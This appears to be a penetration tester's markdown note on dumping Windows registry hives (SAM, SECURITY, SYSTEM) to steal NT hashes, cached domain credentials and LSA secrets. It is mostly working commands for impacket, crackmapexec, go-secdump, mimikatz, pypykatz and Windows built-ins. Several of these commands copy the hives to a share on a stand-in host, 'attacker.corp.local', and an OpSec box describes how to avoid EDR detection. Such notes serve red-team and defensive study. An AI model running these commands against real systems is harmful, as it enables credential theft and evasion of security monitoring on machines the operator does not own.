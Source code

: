 ```yaml
---
title: Registry Dump
---
```


[[notes/mitre-attack/credential-access|Access Credentials]] from the Windows [[notes/windows/registry]] as [[notes/windows/credential-access-admin|local admin]].
The *Security Account Manager* stores NT hashes of local users in the `SAM` registry hive.
The *Local Security Authority* stores Domain Cached Credentials (DDC) of the last ten user logons as well as plain text passwords or NT hashes of local and domain service accounts in the `SECURITY` hive.

DCC hashes are hard to crack, but you can try with a small wordlist.
See [[notes/cryptography/hash-cracking]] for details.

# Dump from Linux

Connect to the *Remote Registry* service over SMB and save the hives to a SMB share.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SAM' -o '\\attacker.corp.local\share'
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SYSTEM' -o '\\attacker.corp.local\share'
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SECURITY' -o '\\attacker.corp.local\share'
    ~~~

Connect to the *Remote Registry* service, read the boot key from the `SYSTEM` hive, save the `SAM` and `SECURITY` hives to disk and download them via SMB.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-secretsdump administrator:'passw0rd'@srv01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.local --local-auth -u administrator -p 'passw0rd' --sam --lsa
    ~~~

Connect to *Remote Registry* and dump the registry hives without touching disk by temporally relaxing ACLs.

=== "[[notes/tools/go-secdump]]"
    ~~~ bash
    go-secdump -host srv01.corp.local -local -user administrator -pass 'passw0rd'
    ~~~

> **OpSec:**
>
> Some EDRs detect Impacket and CME because they access the `ADMIN$` share and write the dumps to `C:\Windows\Temp\*.tmp` ([source](http://web.archive.org/web/20230719134515/https://www.login-securite.com/2023/07/13/dpapi-dont-put-administration-passwords-in/)).
>
> A few EDRs detect remote access to `SAM` even without this indicators.
> In this case you can try to run any of the Windows builtins remotely instead of relying on the *Remote Registry*.

Dump the `SAM` hive trough local registry access to a SMB share.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-atexec -silentcommand administrator:'passw0rd'@srv01.corp.local 'reg.exe save hklm\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save'
    ~~~

# Dump on Windows

Save registry hives directly to a SMB share.

=== "reg.exe"
    ~~~ bat
    reg.exe save hklm\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    reg.exe save hklm\security \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    reg.exe save hklm\system \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

Copy registry hives from a [[notes/windows/shadow-copy]] to a SMB share.

=== "cmd.exe"
    ~~~ bat
    vssadmin.exe list shadows
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\security \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

=== "esentutl.exe"
    ~~~ bat
    esentutl.exe /y /vss C:\Windows\System32\config\sam /d \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    esentutl.exe /y /vss C:\Windows\System32\config\security /d \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    esentutl.exe /y /vss C:\Windows\System32\config\system /d \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

Parse hives in memory without touching disk.

=== "[[notes/tools/mimikatz]]"
    ~~~
    mimikatz.exe token::elevate lsadump::sam lsadump::secrets exit
    ~~~

Untested tools:

- [LSASecretDumper](https://github.com/gtworek/PSBits/tree/master/LSASecretDumper), uses `LsaQuerySecret()`, extracts previous credentials of a service ([source](https://twitter.com/0gtweet/status/1725054344108675172))
- [RegSave](https://github.com/EncodeGroup/RegSave)

# Extract on Linux

=== "[[notes/tools/pypykatz]]"
    ~~~ bash
    pypykatz registry --json ./system.save --sam ./sam.save --security ./security.save
    ~~~

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-secretsdump -sam ./sam.save -security ./security.save -system ./system.save LOCAL
    ~~~
